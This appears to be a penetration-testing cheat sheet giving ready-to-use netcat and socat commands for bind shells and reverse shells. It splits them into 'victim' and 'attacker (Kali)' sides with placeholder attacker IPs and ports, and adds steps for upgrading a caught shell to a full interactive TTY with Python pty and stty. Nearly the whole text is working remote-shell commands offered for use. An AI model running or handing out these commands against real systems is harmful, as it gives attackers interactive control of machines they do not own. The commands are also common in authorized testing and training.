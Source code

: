 # Netcat
**Basic Bind shell**
```bash
# On victim (Listener)
nc -lvnp <PORT> -e /bin/bash # or 'powershell.exe,pipes' if Windows

# On attacker (Kali)
nc <TARGET-IP> <TARGET-PORT>
```

**Basic Reverse shell**
```bash
# On attacker (Listener)
nc -lvnp <PORT>

# On victim
nc <ATTACKER-IP> <ATTACKER-PORT> -e /bin/bash # or 'powershell.exe' if Windows
```

# Socat
**Basic Bind shell**
```bash
# On victim (Listener)
socat TCP-L:<PORT> EXEC:/bin/bash # alternative using socat

# On attacker (Kali)
socat TCP:<TARGET-IP>:<TARGET-PORT> - # alternative using socat
```

**Basic Reverse shell**
```bash
# On attacker (Listener)
socat TCP-L:<PORT>

# On victim
socat TCP:<ATTACKER-IP>:<ATTACKER-PORT> EXEC:"bash -li" # or 'powershell.exe,pipes' if Windows
```

**Advanced Reverse Shell (Linux only)**
```bash
# On attacker (Listener)
socat TCP-L:<PORT> FILE:`tty`,raw,echo=0

# On victim
socat TCP:<ATTACKER-IP>:<ATTACKER-PORT> EXEC:"bash -li",pty,stderr,setsid,sane
```

# Upgrading basic shells
**1) Python pty module**
```bash
# From basic shell, run this command
which python
python -c 'import pty; pty.spawn("/bin/bash")'
```
**2) Using socat (as above)**
**3) Upgrading from netcat with magic**
```bash
# 1) Use python to spawn a pty
python -c 'import pty; pty.spawn("/bin/bash")'

# 2) Background the shell
Ctrl-Z

# 3) Examine current terminal and STTY info to force connected shell to match it
echo $TERM # Take note of the TERM type - "xterm-256color"
stty -a # Take note of the size of current TTY - "rows XX; columns XX"

# 4) Foreground the shell, and reset
fg
reset

# 5) Set the shell, terminal type, and STTY size to match our current window
$ export SHELL=bash
$ export TERM=xterm256-color
$ stty rows 38 columns 116
```
